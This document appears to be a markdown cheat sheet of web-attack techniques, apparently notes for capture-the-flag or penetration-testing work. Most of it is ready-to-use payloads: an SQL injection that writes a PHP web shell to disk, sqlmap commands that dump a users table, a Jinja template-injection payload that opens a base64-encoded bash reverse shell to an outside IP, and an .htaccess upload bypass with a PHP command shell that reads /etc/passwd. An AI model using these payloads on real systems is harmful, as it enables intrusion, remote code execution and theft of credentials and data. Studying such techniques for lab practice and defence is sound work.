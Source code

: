 ## General

SQL injection upload backdoor php file: `"<?php echo
shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

SQLmap to get tables:
```
sqlmap 'http://127.0.0.1/dict/test.php?id=1' --dbs --batch
sqlmap 'http://127.0.0.1/dict/test.php?id=1' --tables -D phpmyadmin
sqlmap 'http://127.0.0.1/dict/test.php?id=1' --dump -D phpmyadmin -T users
```

Blind SQL Injection Python:
```
wget https://github.com/21y4d/blindSQLi/blob/master/blindSQLi.py
python3 blindSQLi.py
# Time based: T
# Query:
#     List DB Version: SELECT @@version
#     List Databases: SELECT schema_name FROM information_schema.schemata
#     List Tables: SELECT TABLE_NAME FROM information_schema.TABLES WHERE table_schema='flag'
#     List Columns: SELECT column_name FROM information_schema.COLUMNS WHERE TABLE_NAME='flag'
#     Retrive data: SELECT flag FROM flag.flag
# Sleep Time: 1
```

SSTI:   
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

For Jinja, if there is no imported os or popen class:
```
nc -nvlp 4443
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.19/4443 0>&1'" | base64

{{request.application.__globals__.__builtins__.__import__('os').popen('echo${IFS}"YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xOS80NDQzIDA+JjEnCg=="|base64${IFS}-d|bash').read()}}
```

File Upload:

If PHP and can upload .htaccess file, upload with the following content: (and can view file path)
```
AddType application/x-httpd-php .gg
```

Then upload pwn.gg with the following php content and call it using /uploads/pwn.gg?cmd=cat+../../../../etc/passwd :
```
<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?> 
```

Binary exploitation:

Exploiting a compiled c binary that contains buffer overflow vuln and an exploitable printf function? https://metactf.com/blog/flash-ctf-my-little-pwny/
